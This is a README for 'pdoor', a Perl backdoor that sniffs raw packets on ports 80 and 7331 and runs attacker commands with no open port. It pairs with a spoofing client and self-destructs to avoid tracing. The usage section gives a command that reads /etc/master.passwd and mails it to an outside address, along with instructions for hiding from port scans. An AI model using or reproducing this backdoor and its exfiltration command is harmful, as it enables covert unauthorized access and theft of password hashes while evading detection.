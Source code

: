 # pdoor
an old 'backdoor' I made that doesn't open any ports and allows you to run programs remotely with a client that spoofs the source of the host and portscans will never find the backdoor since it only looks for certain types of packets and needs no 3way handshakes.

This is a backdoor (pdoor.pl) which sniffs raw packets
going across the network.  It allows you to run commands
without opening any ports on the machine that the backdoor
is running.  It does this by sniffing all packets on port
80 and 7331.  Usually port 80 is open, so, if you want,
you can use telnet and telnet to some machine on that
network on port 80.  Then you would give it something like
this:
GET / HTTP/2cat /etc/master.passwd|mail user@blah
It will read anything after 'GET / HTTP/2' as a
command.  If port 80 isn't open on any machines on the
network, you can use pcl.pl to send a raw packet with
data to port 7331 (which won't be open, but pdoor.pl
will see the packet anyways).  You can connect to
pretty much any machine on the network, not just the one
which the backdoor running.  This is because pdoor.pl
will try to sniff the entire network.  It also contains
a self destruct feature (it will remove itself and then
die, practically untracable) when you do this:
GET / HTTP/2DIE
If you're using the pcl.pl, you only have to type:
DIE


-cp5
